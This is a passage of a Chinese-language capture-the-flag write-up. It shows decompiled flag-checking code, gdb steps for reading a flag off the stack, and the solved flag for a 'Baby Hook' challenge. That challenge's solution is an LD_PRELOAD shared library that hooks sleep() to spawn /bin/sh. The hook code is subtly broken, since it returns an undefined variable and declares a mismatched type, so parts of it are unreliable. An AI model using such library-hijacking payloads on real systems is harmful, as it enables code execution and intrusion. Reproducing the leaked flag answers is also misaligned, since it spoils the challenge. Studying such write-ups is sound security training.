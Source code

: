       v12 = __readfsqword(0x28u);
      *s1 = 0LL;
      v8 = 0LL;
      v9 = 0LL;
      v10 = 0LL;
      v11 = 0;
      for ( i = 0; i < a2; ++i )
      {
        v5 = enc_flag[i];
        s1[i] = v5 ^ _0xBACEB00C;
        _0xBACEB00C = a2 - i + (v5 ^ __ROR4__(_0xBACEB00C, 1));
      }
      return strcmp(s1, input_flag) == 0;
    }
    ```
    :::
    
3. 如果按照上面得到的code寫script會出事，具體來說會出啥事不好說，但總之IDA時不時會翻不出來也見怪不怪，反正有問題一率動態跟，至於要跟到哪裡(因為沒有main symbol，所以也不好定位)，我是直接用pwntools的raw_input()強制斷在input的地方，接著就跳到比對的部分，然後flag就出現在stack上了
### Exploit
```bash!
$ gdb
gef➤ at {PID}
gef➤ fin # until to scan_license function
gef➤ b *{PIE base address}26f
gef➤ c
```

## Baby Hook
* Flag: `FLAG{B4by_Ld_Pr3L0aD_L1bR1rY_:)}`
### Description
Try to Hook Me :)

nc edu-ctf.zoolab.org 10002
Flag Format：FLAG{...}
### 解題思路
這一題主要的想法很簡單，就是給他一個so file，然後她會直接用這個so file當作LD_PRELOAD，執行./chall，所以我們要做的事情概念很簡單，就是給他一個有問題的so file，然後當他執行椅面的function時，就會執行我們給他的惡意指令，例如開shell
### Exploit
```cpp!
#define _GNU_SOURCE
#include <stdio.h>
#include <stdint.h>
#include <dlfcn.h>

#define unlikely(x) __builtin_expect(!!(x), 0)
#define TRY_LOAD_HOOK_FUNC(name) if (unlikely(!g_sys_##name)) {g_sys_##name = (sys_##name##_t)dlsym(RTLD_NEXT,#name);}


typedef void* (*sys_sleep_t)(size_t size);
static sys_sleep_t g_sys_sleep = NULL;
void* sleep(size_t size)
{
    execve("/bin/sh", (char *[]){0}, (char *[]){0});
    return p;
}
```
